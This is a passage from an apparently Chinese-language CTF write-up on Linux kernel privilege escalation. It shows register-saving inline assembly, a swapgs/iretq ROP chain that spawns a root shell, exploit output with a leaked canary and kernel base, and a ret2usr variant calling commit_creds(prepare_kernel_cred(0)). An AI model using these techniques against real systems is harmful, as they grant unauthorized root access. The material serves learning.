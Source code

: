 在返回到用户空间是会依此从内核栈中弹出`rip`、`cs`、`EFLAGS`、`rsp`以及`ss`寄存器，因此需要也需要将这些数据部署正确，所以需要在开始覆盖之前保存相应的寄存器。保存数据的代码如下：

```
void save_status() `{`
    asm(
            "movq %%cs, %0\n\t"
            "movq %%ss, %1\n\t"
            "movq %%rsp, %2\n\t"
            "pushfq\n\t"
            "popq %3\n\t"
            : "=r" (user_cs), "=r" (user_ss), "=r" (user_sp), "=r" (user_rflags)
            :
            : "memory");

 `}`
```

最终构造出来的返回用户空间并创建root shell的rop链如下：

```
*(ptr + i++) = swapgs_p_ret;
    *(ptr + i++) = 0;
    *(ptr + i++) = iretq_ret;
    *(ptr + i++) = (uint64_t) root_shell;
    *(ptr + i++) = user_cs;
    *(ptr + i++) = user_rflags;
    *(ptr + i++) = user_sp;
    *(ptr + i++) = user_ss;
```

最终成功拿到root shell：

```
/ $ id
uid=1000(chal) gid=1000(chal) groups=1000(chal)
/ $ ./exp
commit creds addr: 0xffffffff8a69c8e0
prepare kernel cred addr: 0xffffffff8a69cce0
kernel base: 0xffffffff8a600000
leak canary: 0x40f4b6285353e500
get root shell...
/ # id
uid=0(root) gid=0(root)
```

### <a class="reference-link" name="ret2usr%E6%8F%90%E6%9D%83"></a>ret2usr提权

还有一种解法是ret2usr，利用的原理是内核没有开启smep时，内核空间可以访问用户空间数据以及执行用户空间的代码。因此可以不用rop去执行`commit_creds(prepare_kernel_cred(0))`；而是直接在用户空间调用`commit_creds(prepare_kernel_cred(0))`代码。

关键代码如下，将提权函数在用户空间实现，栈溢出劫持到控制流时直接执行用户空间提权代码`privilege_escalate`后，再返回到用户空间中创建root shell。

```
void privilege_escalate()
`{`
    char* (*pkc)(int) = prepare_kernel_cred;
    void (*cc)(char*) = commit_creds;
    (*cc)((*pkc)(0));

    return ;
`}`

...

        ptr = (uint64_t *)(buffer+0x40);
    *(ptr + i++) = canary;
```
